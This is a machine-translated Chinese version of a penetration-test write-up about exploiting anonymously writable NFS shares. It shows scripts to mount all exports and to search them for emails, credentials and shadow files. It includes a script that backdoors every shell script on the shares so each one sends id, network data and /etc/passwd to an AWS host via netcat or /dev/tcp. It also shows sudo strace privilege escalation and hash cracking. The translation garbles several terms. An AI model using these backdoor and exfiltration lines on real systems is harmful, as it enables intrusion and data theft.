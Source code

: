 # 全球可写 NFS 股票的危险

> 原文：<https://infosecwriteups.com/the-danger-of-world-writable-nfs-shares-39ecfe868468?source=collection_archive---------0----------------------->

免责声明:为了防止该公司的信息泄露，这里的大部分证据/截图都是尽可能接近真实情况而重新创建的。

这是我几个月前参加的一次 pentest 的书面记录。这一切都始于一个简单的网站。为了防止敏感信息的泄露，我将把网站的公共名称替换为内部 ip。在对其进行聚类([https://github.com/OJ/gobuster](https://github.com/OJ/gobuster))后，我们发现了一个禁止浏览的目录(403 错误)。

![](img/107d866973f4792f329d56731d982c13.png)

这个合法的目录似乎很有趣，在配置 apache 时，您会发现一个常见的错误，就是限制目录列表，但允许访问单个文件。当使用。特定文件夹中的 htaccess，类似于:

```
Options -Indexes
```

在这种情况下，这个。htaccess 位于合法文件夹中，递归地阻止了目录列表，但没有阻止单个文件的访问。由于 gobuster 没有递归选项，我们不得不在每个单独的目录上调用它，假设返回 403 错误的目录存在，直到我们到达敏感文件 config.server。我们不得不使用 raft-medium-directory 和 raft-medium-folders 强制每个文件夹(你可以在 https://github.com/danielmiessler/SecLists 的[中找到这些和其他优秀的单词列表)](https://github.com/danielmiessler/SecLists)

![](img/876ea1ea68dd834771709fe21105259a.png)

调查结果/法律/环境

![](img/116d68a37897a313dda1ad224371fd57.png)

调查结果/法律/环境/测试版

![](img/7f0cc3d7d4ab84a98e98f3cc0f772dc8.png)

最终找到 config.server

![](img/d60c368ff4606f6f5a02e931122a3ba2.png)

config.server 的内容

正如我们所看到的，config.server 是一个配置文件，可能用于定义 nfsmount。我们可以在 10.1.5.243 中使用命令 showmount -e 枚举其他挂载。

![](img/44bef08000a5d3bad242279a275eeea1.png)

导出的 nfs 共享

大多数导出的共享都可以公开访问。大概有 15 个(上图只显示了前 10 个)。我们继续用这个 bash 脚本安装所有这些组件:

```
for i in $(showmount -e 10.1.5.243 |cut -f 1); do mkdir /mnt"$i" && mount -t nfs 10.1.5.243:"$i" /mnt/"$i"; done
```

这基本上为挂载点创建了一个目录(/mnt/vol/{folder})，并将所有内容挂载到它自己的文件夹中。

我们通过 web 应用程序访问了这个易受攻击的 nfs 服务器，但它也出现在我们的 Nessus 扫描中。直到不久前，Nessus 还将公开共享列为“信息”项，甚至不低。我们将在几分钟后看到为什么这实际上是一个高漏洞发现。

在挂载了所有的共享之后，我们需要启动一个枚举过程。我们只有两个五旬老人，所有东西都有超过 1.3TB 的数据。这意味着自动化枚举。

首先，您需要定义要查找哪些信息。我们决定获取以下信息:

1.  信用卡
2.  巴基斯坦国际航空公司
3.  客户电子邮件
4.  有趣的文件(sql、vmdk、vdi、配置文件、bash 脚本等..)
5.  具有凭据的文件

在决定了这些项目之后，我们很快编写了一些 bash 脚本来搜索这些东西。我们选择不使用单个脚本，因为我们希望并行执行每个进程，并且 pentest 足够短，我们没有时间编写更复杂的代码(例如，带有多线程的 python 脚本)。

下面的正则表达式将搜索电子邮件

```
#!/bin/bash
logFile='searchEmails.log'
mkdir $logFile > /dev/null
targetDir="$1"
cd "$targetDir"
for i in $(ls "$targetDir"); do
    grep -h -r -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" $i > "$logFile" 2>/dev/null &
done
```

这将寻找有趣的文件扩展名

```
#!/bin/bash
logFile="$(pwd)/logs/"
mkdir $logFile > /dev/null
targetDir="$1"
cd "$targetDir"
for i in $(ls "$targetDir"); do
    find "$i" -iname \*.sql -o -iname \*.vmdk -o -iname \*.sh -o -iname \*.vdi -o -iname \*.mp3 -o -iname config.php -o -iname wp-config.php -o -iname shadow >> "$logFile$i.search" 2>/dev/null &
done
```

这是递归关键字

```
#!/bin/bash
logFile="$(pwd)/logsPassword/"
mkdir $logFile > /dev/null
targetDir="$1"
cd "$targetDir"
for i in $(ls "$targetDir"); do
    grep -irE "ssh|rdp|ftp|pass" "$i" 2>/dev/null | grep -v 'Binary file' | sort -u > "$logFile$i.search" 2>/dev/null &
done
```

总之，我们发现了超过 1100 万封客户电子邮件、明文凭据、SQL 转储、支付信息和大量 PIA。我们找不到任何明文形式的信用卡号码，但我们找到了一份超过 3 年的客户投诉电话备份，讨论信用卡费用(我们能够提取其中的一些来证明发现的严重性)。我们还找到了那些客户代表代理的笔记，上面也有完整的抄送号码。

在我们能够提取的所有数据库转储中，我们发现了一个星号服务器的所有系统管理员的有趣备份，密码以 base64 编码:

![](img/55622fe941a22cee20e526d57de83e34.png)

这将允许我们执行一些 PBX 黑客攻击，不幸的是，这不在 pentest 的范围内。

我们还能够找到一个未加密的 windows vmdk 备份，我们使用 samdump2 在本地挂载它来提取系统和 SAM 文件。提取散列后，我们用开膛手约翰破解了它们。这些散列允许我们转向一个完全不同的广告环境。我会上传另一篇后续文章，因为我不想写得太长。

在提取了大部分相关信息后，我们决定尝试利用我们对共享的写权限。匿名阅读是坏消息，但匿名写作更糟。很多时候，在大公司里，你有从这些类型的共享中消耗资源的服务，我们想要检查是否是这种情况。

现在，为了利用这一点，我们决定对共享中的脚本进行后门操作。我们时间有限，所以大规模后门编译可执行文件(如 elf、exe 或 jar 文件)是不可能的。我们认为最容易被后门的文件类型是 bash 脚本。这些具有易于修改的优点(您可以只添加新行)，并且我们还需要考虑非后门流程，以便在 pentest 结束后补救这种情况。

我们在 aws 中设置了一个可公开访问的实例，并运行了以下脚本。

```
#!/bin/bash
scanDir="$1"
cc="ec2-32-208-170-100.compute-1.amazonaws.com"
ccport="60666"
info='Id:$(id);Ifconfig:$(ifconfig);Passwd:$(cat /etc/passwd);'
temp=$(mktemp)# function ncRun(){
#     echo $info | /bin/nc $cc $ccport
# }# function bashRun(){
#     echo $info > /dev/tcp/$cc/$ccport
# }echo "[[ -e /bin/nc ]] && echo \"$info\" | /bin/nc -q 0 $cc $ccport  || echo \"$info\" > /dev/tcp/$cc/$ccport & exit" > $tempfor i in $(find $1 -iname \*.sh 2>/dev/null ); do echo "Backdooring $i" && echo "" >> $i && cat $temp >> $i; done
```

这基本上附加了几行到 found。sh 文件，该文件检查 netcat 是否存在(/bin/nc)。如果有，它会通过 netcat 将相关信息(它的 id、网络信息和/etc/passwd)发送到我们的服务器。如果 netcat 不存在，它使用 bash 内置的/dev/tcp dev 文件，这允许您使用 dev 文件/dev/TCP/server/port([https://www.tldp.org/LDP/abs/html/devref1.html](https://www.tldp.org/LDP/abs/html/devref1.html))连接到 server:port。您可以在此处看到该脚本的输出示例:

![](img/cddb75aac0138d963fd5021eb368a64f.png)

后门的一个例子。上海脚本

要接收连接，您只需像这样设置一个监听器

```
nc -lkvp 60666 > reverse.log
```

(最好在 tmux/screen 会话中，以便您可以注销)

在这种情况下，我们让它运行了 2 个小时，收到了大约 17 个连接回复。由于显而易见的原因，我不能把真正的证据放在这里，它看起来像这样:

![](img/7d675618b1ae9d38353341a25d4a1dfa.png)

在我们的 aws 实例上模拟连接

不是最好的输出，但足以证明妥协。

在攻破这些服务器后，我们开始调查它们。它们都是 ubuntu 服务器，在我们收到的 17 个连接回复中，只有 2 个来自 root 帐户。剩下的 15 个来自非特权账户。幸运的是，所有这些都是以相同的方式配置的。原来这些服务器大部分是由开发者使用的，出于安全原因，他们没有 root 权限。为了让他们能够调试部署的应用程序，sysadmin 团队授予他们使用 sudo 运行 strace 的权限，而不需要密码。该漏洞很容易被利用，因为为了调试应用程序/命令，您首先需要运行它。拥有超级用户权限。
在下一张截图中，你可以看到如何利用这个漏洞在系统上获得一个根外壳。我们基本上制作了一个 bash 副本，并给它分配了一个 suid。然后，我们用-p 运行它(以维护 suid 特权)，正如您所看到的，我们的有效 uid 是 0 (root)。

![](img/39a8cc96d6169fe1d0ef378fa1c025e7.png)

使用 strace 提升权限

接下来的几周，我们再次被同一家公司雇用来审计这些服务器的内部安全，我们能够找到 13 种不同的方法来提升权限，利用 sudo 易受攻击的二进制文件()和弱 sudo 脚本(使用不同的注入、本地符号链接利用、竞争条件和弱权限)。这很可能是未来的又一篇文章。

出于简洁和保密的原因，我不能在这里列出信息和基础设施受损的总量。但考虑到我们只有不到一周的时间，这是我们做过的最有意义的圣灵降临节之一。